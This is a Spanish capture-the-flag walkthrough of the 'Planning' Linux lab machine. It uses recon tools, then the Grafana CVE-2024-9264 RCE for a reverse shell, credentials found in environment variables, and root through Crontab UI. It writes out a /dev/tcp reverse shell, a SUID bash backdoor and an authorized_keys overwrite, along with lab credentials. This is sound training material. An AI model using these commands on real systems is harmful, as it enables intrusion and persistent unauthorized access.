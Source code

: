 # Planning

**Dificultad:** Easy  
**SO:** Linux  

## Información de la máquina
Como en un pentest real, empezamos con las credenciales para la cuenta: `admin / 0D5oT70Fq13EvB5r`.

## Metodología

### Reconocimiento inicial

##### Reconocimiento del SO y puertos con NMAP
Comprobamos que es una maquina linux por el ttl ~ 64.
Reconocimiento inicial con nmap.

```bash
ping -c 4 10.10.11.68
nmap -sS -p- --min-rate 5000 10.10.11.68 -oG allPortsPlanning
nmap -sCV -p 22,80 -n -nP 10.10.11.68 -oA sondeoPlanning
```

![/etc/hosts](images/planning_dns_local.PNG)
![Nmap puertos](images/planning_allPorts.PNG)
![Nmap ervicios](images/planning_sondeo.PNG)

#### Actualizar /etc/hosts (actúa como dns local)
Asociamos el nombre del host (planning.htb) con su dirección IP (10.10.11.68).

```bash
nano /etc/hosts
```

![/etc/hosts](images/planning_dns_local.PNG)

### Reconocimiento web

#### Análisis con Wappalyzer
Permite identificar las `tecnologías` que se utilizan en esta `web`.
![Wappalyzer](images/planning_wappalyzer.PNG)

#### Enumeración de subdirectorios con Gobuster
Al observar que se utiliza PHP, añadimos la opción -x php.

```bash
gobuster dir -u http://planning.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php
```

![Gobuster](images/planning_gobuster.PNG)

#### Enumeración de subdominios con Wfuzz
Primero vemos el comportamiento de los subdominios inválidos.

```bash
wfuzz -u http://10.10.11.68 -H "Host: FUZZ.planning.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
```

![Wfuzz](images/planning_wfuzz_inicial.PNG)

Luego le metemos el `hide lines`, para `filtrar` todas las respuestas que tengan 7.

```bash
wfuzz -u http://10.10.11.68 -H "Host: FUZZ.planning.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hl 7
```

![Wfuzz filtrado](images/planning_wfuzz_grafana.PNG)

#### Mapeamos el nuevo subdominio en /etc/hosts
Asociamos grafana.planning.htb con la dirección IP del dominio (10.10.11.68).
![Wfuzz filtrado](images/planning_dns_subdominio.PNG)

#### Grafana
Página de login de Grafana en grafana.planning.htb.
![Wfuzz filtrado](images/planning_grafana_web_login.PNG)

Accedemos con las credenciales que nos han proporcionado (admin:0D5oT70Fq13EvB5r) y comprobamos que `Grafana v11.0.0` es vulnerable.
![Grafana](images/planning_grafana_dashboard_v11.PNG)

### CVE-2024-9264 - RCE en Grafana

Vulnerabilidad de ejecución remota de código (RCE) en Grafana v11.0.0.

La `función experimental de SQL Expressions` en Grafana, `permite ejecutar consultas en duckdb` que contienen información del usuario.

El problema radica en que `las consultas no se sanitizan` correctamente antes de ser procesadas por duckdb, lo que `permite una inyección de comandos y vulnerabilidad de inclusión de archivos locales (LFI)`.

Cualquier usuario con permiso de VIEWER o superior puede aprovechar esta vulnerabilidad para ejecutar comandos arbitrarios en el servidor.

Es importante destacar que para que el ataque funcione, `el binario de duckdb debe estar presente en el $PATH de Grafana`, aunque por defecto no viene instalado en las distribuciones estándar.


[Grafana Security Advisory CVE-2024-9264](https://grafana.com/security/security-advisories/cve-2024-9264/)


#### Reverse shell
Ejecutamos el exploit y obtenemos una `reverse shell` como root.

```bash
python3 reverse.py --url http://grafana.planning.htb/ --username "admin" --password "0D5oT70Fq13EvB5r" --reverse-ip 10.10.16.19 --reverse-port 1337
```

![Reverse shell](images/planning_exploit.PNG)

[Github-CVE-2024-9264-RCE-Exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)


#### Tratamiento de la TTY

```bash
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows 40 columns 184
```

### Post-Explotación
Viendo el nombre del `hostname 7ce659d667d7` ya se puede intuir que estamos es un `contenedor docker`, para confirmalo vemos quien es el proceso 1 (en este caso `Grafana` ha sido la aplicación que se lanzó con el contenedor).

![Proceso 1](images/planning_process_1.PNG)

#### LinPEAS
Utilicé `LinPEAS` para enumerar posibles vectores de escalada, aunque lo primero es `subirlo al contenedor`.

![Subir LinPEAS](images/planning_linpeas.PNG)

Encontrando las credenciales para `enzo:RioTecRANDEntANT!` en las variables de entorno (sin linPEAS, con env o printenv).

![Subir LinPEAS](images/planning_linpeas_env.PNG)

#### SSH
Nos conectamos por SSH con el usuario enzo.

```bash
ssh enzo@10.10.11.68
```

![SSH 1](images/planning_ssh_enzo1.PNG)
![SSH 2](images/planning_ssh_enzo2.PNG)

#### Escalada a root
Buscando servicios internos con `netstat -ano`, me encontré con grafana escuchando en el 3000 [Grafana docs](https://grafana.com/docs/grafana/latest/setup-grafana/start-restart-grafana/#docker-compose-example) y otro servicio en el 8000, pero requería autenticación.

![NetStat](images/planning_conexiones_locales.PNG)
![Servicio desconocido](images/planning_servicio_desconocido.PNG)

Tras investigar el sistema un rato, me encontré el archivo `crontab.db` en la ruta `/opt/crontab/crontab.db`. Al parecer hay una tarea programada en JSON que ejecuta un backup diario de un contenedor docker, donde guarda la imagen `root_grafana` en un grafana.tar y después la comprime en un .zip protegido con la contraseña `P4ssw0rdS0pRi0T3c`.

Ahora con esta contraseña, pruebo a autenticarme de nuevo contra el servicio desconocido con diferentes usuarios (enzo, root_grafana y root). Obteniendo un HTTP 200 OK con `root:P4ssw0rdS0pRi0T3c`.

```bash
curl -u enzo:P4ssw0rdS0pRi0c http://localhost:8000/ -v
curl -u root_grafana:P4ssw0rdS0pRi0c http://localhost:8000/ -v
curl -u root:P4ssw0rdS0pRi0c http://localhost:8000/ -v
```

![Autenticado contra el servicio desconocido](images/planning_autenticacion_servicio_desconocido.PNG)

#### Port Forwarding
Para comprender mejor que hay ahí vamos a redirigir el trafico desde un puerto de mi máquina local hacia el puerto donde está corriendo este servicio en la maquina remota.

```bash
ssh -L 8080:127.0.0.1:8000 enzo@10.10.11.68
```
![Port Forwarding](images/planning_port_forwarding.PNG)

#### Crontab UI
El servicio que corre en localhost:8000 es un Crontab UI desde donde se pueden ejecutar comandos one-liner como root.

![Crontab UI](images/planning_crontab_ui.PNG)

Maneras de convertirnos en root:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.19/1337 0>&1'
```

![Root - Simple reverse](images/planning_crontab_simple_reverse.PNG)

```bash
cp /bin/bash /usr/local/bin/upupup && chmod 4755 /usr/local/bin/upupup
cp /bin/bash /usr/local/bin/upupup && chmod u+s /usr/local/bin/upupup
```

![Root - Bit SUID](images/planning_crontab_suid_shell.PNG)

```bash
echo 'ssh-rsa AAAAB3Nz...LJzNu/ZQ== kali@kali' > /root/.ssh/authorized_keys
```

![Root - SSH authorized_keys](images/planning_crontab_ssh_pub.PNG)

### Limpieza del entorno
Una vez terminada la máquina, recuerda limpiar todos los archivos creados para mantener el entorno limpio.

![Limpieza](images/planning_limpieza_entorno.PNG)
